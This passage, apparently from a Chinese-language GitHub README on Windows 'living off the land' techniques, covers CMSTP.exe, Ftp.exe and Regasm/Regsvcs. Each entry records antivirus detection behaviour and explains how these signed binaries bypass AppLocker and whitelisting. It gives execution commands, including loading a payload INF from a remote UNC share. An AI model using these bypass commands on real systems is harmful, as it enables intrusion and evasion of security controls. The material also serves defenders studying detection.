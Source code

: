 - 杀软行为检测：执行时360会行为预警，火绒无响应

- 详细文章链接：[https://mp.weixin.qq.com/s/tgtvOMDGlKFwdRQEnKJf5Q](https://mp.weixin.qq.com/s/tgtvOMDGlKFwdRQEnKJf5Q)

Microsoft连接管理器配置文件安装程序（CMSTP.exe）是用于安装连接管理器服务配置文件的命令行程序。CMSTP.exe接受安装信息文件（INF）作为参数，并安装用于远程访问连接的服务配置文件。

攻击者可能会使用CMSTP.exe调用恶意的INF文件。与Regsvr32 相似，CMSTP.exe可能被利用从远程服务器加载和执行DLL或COM脚本（SCT）。由于CMSTP.exe是合法的，经过签名的Microsoft应用程序，因此该执行过程也可以绕过AppLocker和其他白名单防御。

在windows中文件路径
```
64位 C:\Windows\System32\cmstp.exe
32位 C:\Windows\SysWOW64\cmstp.exe
```
- 执行方式：

执行本地payload：`cmstp.exe /ni /s c:\cmstp\CorpVPN.inf`

执行远程payload：`cmstp.exe /ni /s  \\10.211.55.28\test\cmstp.inf`

## Ftp.exe

- 杀软行为检测：不会触发行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/rnmCIx5oxA9z-0OfjoUAVw](https://mp.weixin.qq.com/s/rnmCIx5oxA9z-0OfjoUAVw)

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

Windows 2003 默认位置：

```
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

Windows 7 默认位置：

```
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

- 执行方式：
```
echo !calc.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
```

## Regasm.exe/Regsvcs.exe

- 杀软行为检测：执行时触发行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/MCMjxPdUNdwV8is04AklLA](https://mp.weixin.qq.com/s/MCMjxPdUNdwV8is04AklLA)

Regsvcs和Regasm是Windows命令行实用程序，用于注册.NET组件对象模型（COM）程序集。两者都是由Microsoft进行数字签名的。攻击者可以使用Regsvcs和Regasm代理通过受信任的Windows实用程序执行代码。两个实用程序可用于通过使用二进制内的属性来绕过进程白名单，以指定应在注册或取消注册之前运行的代码：[ComRegisterFunction]或[ComUnregisterFunction]分别。即使进程在权限不足的情况下运行并且无法执行，也将执行具有注册和取消注册属性的代码。
